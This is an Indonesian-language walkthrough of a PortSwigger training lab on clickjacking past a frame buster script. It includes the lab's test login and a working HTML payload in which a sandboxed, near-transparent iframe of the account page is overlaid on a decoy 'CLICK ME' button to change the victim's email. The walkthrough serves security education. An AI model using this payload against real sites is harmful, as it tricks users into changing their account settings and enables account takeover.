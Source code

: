 # Clickjacking dengan Skrip Frame Buster

Lab ini dilindungi oleh frame buster yang mencegah situs web untuk di-iframe. Bisakah Anda melewati frame buster tersebut dan melakukan serangan clickjacking yang mengubah alamat email pengguna?

Untuk menyelesaikan lab ini, buatlah beberapa HTML yang membingkai halaman akun dan menipu pengguna agar mengubah alamat email mereka dengan mengklik "Click me". Lab dianggap selesai ketika alamat email berhasil diubah.

Anda dapat masuk ke akun Anda sendiri menggunakan kredensial berikut:  
**Username:** wiener  
**Password:** peter

**Catatan:** Korban akan menggunakan Chrome, jadi pastikan untuk menguji exploit Anda di browser tersebut.

**Hint:** Anda tidak dapat mendaftarkan alamat email yang sudah digunakan oleh pengguna lain. Jika Anda mengubah alamat email Anda sendiri saat menguji exploit, pastikan Anda menggunakan alamat email yang berbeda untuk exploit akhir yang Anda berikan kepada korban.

---------------------------------------------

Referensi:

- [Clickjacking - PortSwigger](https://portswigger.net/web-security/clickjacking)

![img](images/Clickjacking%20with%20a%20frame%20buster%20script/1.png)

---------------------------------------------

Jika profil pengguna diakses dengan parameter “email”, field email akan terisi otomatis:

![img](images/Clickjacking%20with%20a%20frame%20buster%20script/2.png)

Jika kita mencoba menggunakan payload dari lab sebelumnya, muncul error berikut:

![img](images/Clickjacking%20with%20a%20frame%20buster%20script/3.png)

Kita dapat menambahkan `sandbox="allow-forms"` ke kode iframe untuk menghindari masalah ini, sehingga kita dapat mengeksekusi serangan dengan payload seperti ini:

```html
<style>
    iframe {
        position: relative;
        width: 1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 470px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>CLICK ME</div>
<iframe sandbox="allow-forms" src="https://0a84007b0486e431826ebbf6006e007d.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

![img](images/Clickjacking%20with%20a%20frame%20buster%20script/4.png)

**Penjelasan:**

1. **Style CSS:**  
   - **iframe:**  
     - **`position: relative;`** dan **`width: 1000px; height: 700px;`**: Mengatur ukuran dan posisi iframe.
     - **`opacity: 0.1;`**: Membuat iframe hampir tidak terlihat namun tetap interaktif.
     - **`z-index: 2;`**: Menetapkan tingkat tumpukan agar iframe berada di atas elemen lain.
   - **div:**  
     - **`position: absolute; top: 470px; left: 60px;`**: Menempatkan div "CLICK ME" di posisi yang strategis di atas iframe.
     - **`z-index: 1;`**: Menetapkan tingkat tumpukan agar div berada di bawah iframe, namun tetap terlihat oleh pengguna.

2. **Div "CLICK ME":**  
   - Elemen ini berfungsi sebagai umpan untuk menarik perhatian pengguna agar mengkliknya. Ketika pengguna mengklik "CLICK ME", mereka sebenarnya mengklik area pada iframe yang tersembunyi yang dapat memicu tombol "Update email".

3. **Iframe:**  
   - **`sandbox="allow-forms"`**: Menambahkan atribut sandbox dengan izin untuk formulir memungkinkan iframe untuk mengirimkan formulir meskipun ada frame buster.
   - **`src="https://0a84007b0486e431826ebbf6006e007d.web-security-academy.net/my-account?email=test@test.com"`**: Memuat halaman akun target dengan parameter `email=test@test.com`, yang akan mengubah alamat email pengguna jika formulir tersebut dikirimkan.
   - **`opacity: 0.1;`**: Membuat iframe hampir transparan sehingga pengguna tidak menyadari interaksi yang sebenarnya terjadi di dalamnya.

Dengan teknik ini, pengguna yang mengunjungi halaman yang berisi payload ini akan secara tidak sadar mengubah alamat email mereka karena mereka mengklik "CLICK ME" yang secara tidak sengaja mengklik tombol "Update email" di dalam iframe tersembunyi. Penambahan atribut `sandbox="allow-forms"` memungkinkan iframe melewati perlindungan frame buster, sehingga serangan clickjacking dapat berhasil dilakukan meskipun situs target memiliki perlindungan tersebut.
